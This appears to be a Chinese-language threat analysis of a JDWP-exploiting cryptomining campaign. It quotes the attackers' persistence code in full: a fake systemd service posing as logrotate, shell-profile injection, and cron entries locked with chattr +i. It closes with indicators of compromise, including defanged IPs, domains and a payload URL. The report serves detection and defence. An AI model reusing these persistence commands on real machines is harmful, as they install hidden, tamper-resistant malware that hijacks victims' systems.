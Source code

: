   
系统服务  
  
接下来，攻击者投放了一个伪装成的虚假 systemd 服务logrotate。实际上，它只是指向他们的恶意二进制文件，并设置为持续重启：  
  
```
[Unit]Description=The logrotate utility is designed to simplify the administration of log files on a system which generates a lot of log files[Service]ExecStart=$HOME/.config/logrotateRestart=alwaysNice=-20StandardOutput=null[Install]WantedBy=multi-user.target
```  
  
  
Shell启动脚本  
  
为了在终端登录或注销时触发有效载荷，他们将其附加到特定于用户的 shell 配置文件中：  
  
```
case "$(ps -p $$ -o comm=)" in   bash) add_to_startup "$HOME/.bashrc"         add_to_startup "$HOME/.bash_logout" ;;   zsh) add_to_startup "$HOME/.zshrc" ;;esac
```  
  
  
计划任务  
  
最后，攻击者创建了跨多个位置和时间间隔的 cron 作业。  
  
```
[ -d /var/spool/cron ] && [ -f /var/spool/cron/root ] && echo "@daily $EXEC" >> /var/spool/cron/root 2>/dev/null[ -d /var/spool/cron/crontabs ] && [ -f /var/spool/cron/crontabs/root ] && echo "@daily $EXEC" >> /var/spool/cron/crontabs/root 2>/dev/null[ -f /etc/crontab ] && echo "@daily $EXEC" >> /etc/crontab 2>/dev/null && sudo chattr +i /etc/crontab 2>/dev/null[ -d /etc/cron.hourly ] && echo "$EXEC" >> /etc/cron.hourly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.hourly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.hourly/logrotate 2>/dev/null[ -d /etc/cron.daily ] && echo "$EXEC" >> /etc/cron.daily/logrotate 2>/dev/null && sudo chmod +x /etc/cron.daily/logrotate 2>/dev/null && sudo chattr +i /etc/cron.daily/logrotate 2>/dev/null[ -d /etc/cron.weekly ] && echo "$EXEC" >> /etc/cron.weekly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.weekly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.weekly/logrotate 2>/dev/null[ -d /etc/cron.monthly ] && echo "$EXEC" >> /etc/cron.monthly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.monthly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.monthly/logrotate 2>/dev/null[ -d /etc/cron.yearly ] && echo "$EXEC" >> /etc/cron.yearly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.yearly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.yearly/logrotate 2>/dev/null
```  
  
  
IoC  
  
```
a923de9df0766d6c4be46191117b8cc6486cf19c  SHA-1logservice.sh1879d5fa0c2ca816fcb261e96338e325e76dca09SHA-1logservice.sh18d83ba336ca6926ce8b9d68f104cff053f0c2f9SHA-1o.sh-attackscript815bc1a79440cdc4a7e1d876ff2dc7bc4f53d25eSHA-1logrotate0851a95d46f035c7759782299422bcfd794e2aecSHA-1logrotate7074d674d120d19aa7e44e29dd126af152ccdb7cSHA-1logrotate2d4a23e861ef41df6953195fa4cda115e37a7218SHA-1logrotatebaf0a3b92225f56499c6879b176a3d6163b9d3efSHA-1logrotateea7c97294f415dc8713ac8c280b3123da62f6e56SHA-1XMRig6.22185.196.8[.]123IPFileServer185.196.8[.]86IPPayloadsFileServer176.65.148[.]57IPJDWPscanner176.65.148[.]86IPJDWPscanner176.65.148[.]239IPJDWPscanner185.208.156[.]247:3333IPMiningPool185.196.8[.]41IPMiningPoolhttps://awarmcorner[.]world Domain Payloads File Serverhttps://aheatcorner[.]world Domain Previous Payloads File Serverhttps://canonicalconnect[.]com Domain Payloads File Serverhttps://cozy[.]yachts Domain Previous Payloads File Serverhttps://s3.tebi[.]io/dhcpdc/o.sh URL Payload URL
```  
  